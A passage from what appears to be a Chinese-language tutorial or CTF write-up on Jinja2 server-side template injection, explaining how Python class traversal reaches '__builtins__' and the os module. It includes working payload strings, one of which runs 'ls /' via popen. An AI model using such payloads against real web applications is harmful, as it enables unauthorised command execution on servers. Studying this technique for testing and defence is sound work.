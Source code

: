 我们可以看到，返回中的“`'__builtins__'`”有 **对象** ( `'xxx': <class 'xxx'>` ) ，也有 **内建函数** ( `<built-in function xxx>` )，再往后则有 **模块** (比如 `'_os': <module 'os' from '/usr/local/lib/python3.9/os.py'>`)：

当然这里的模块其实已经可以直接用了：`{{''.__class__.__bases__[0].__subclasses__()[199].__init__.__globals__['_os'].popen('ls /').read()}}`

![image-20231130190521154](../.gitbook/assets/image-20231130190521154.png)

不过到这就结束了未免太没意思，其实内建函数也有很多可用的方法，下面我们取出 `'__builtins__'` 的内容：

`{{''.__class__.__bases__[0].__subclasses__()[199].__init__.__globals__['__builtins__']}}`
